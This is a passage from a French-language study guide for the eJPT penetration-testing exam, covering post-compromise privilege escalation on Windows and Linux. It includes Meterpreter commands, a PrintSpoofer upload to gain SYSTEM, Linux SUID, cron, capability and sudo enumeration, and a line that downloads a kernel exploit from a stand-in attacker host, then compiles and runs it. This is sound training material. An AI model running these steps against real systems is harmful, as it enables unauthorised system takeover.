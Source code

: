 Les compétences acquises dans ces labs sont essentielles pour l'examen eJPT, où l'extraction d'identifiants vous permettra souvent de progresser dans le réseau cible.

**En clair, pour un débutant** : Ces exercices vous apprennent à trouver et utiliser les mots de passe stockés sur les systèmes que vous avez compromis, compétence cruciale pour avancer dans un réseau comme l'examen eJPT vous demandera de le faire.

## 9. Privilege Escalation

L'élévation de privilèges est une étape cruciale qui vous permet de passer d'un accès limité à un accès administrateur ou root. Cette compétence est essentielle pour l'eJPT et souvent nécessaire pour accéder à certaines informations sensibles.

### Élévation de privilèges sur Windows

Sur Windows, plusieurs vecteurs d'élévation de privilèges sont couramment exploités :

```bash
# Dans un shell Meterpreter, vérifier les privilèges actuels
meterpreter > getuid
meterpreter > getprivs

# Utiliser l'exploit suggéré par winPEAS
meterpreter > background  # Mettre en arrière-plan la session actuelle
msf > use exploit/windows/local/suggested_exploit
msf > set SESSION 1
msf > exploit

# Utiliser des exploits courants comme PrintSpoofer
meterpreter > upload /path/to/PrintSpoofer.exe C:\\Windows\\Temp\\
meterpreter > shell
C:\Windows\Temp> PrintSpoofer.exe -i -c cmd
```

**En clair, pour un débutant** : Ces techniques vous permettent de passer d'un utilisateur standard à administrateur sur Windows. C'est comme trouver un moyen de débloquer toutes les fonctionnalités d'un appareil qui étaient verrouillées par un contrôle parental.

### Élévation de privilèges sur Linux

Sur Linux, d'autres méthodes sont utilisées :

```bash
# Vérifier les permissions SUID
find / -perm -u=s -type f 2>/dev/null

# Vérifier les tâches planifiées
cat /etc/crontab

# Vérifier les binaires avec capacités spéciales
getcap -r / 2>/dev/null

# Vérifier les permissions sudo
sudo -l

# Utiliser un exploit de noyau suggéré par linPEAS
wget http://attacker-ip/exploit.c
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```
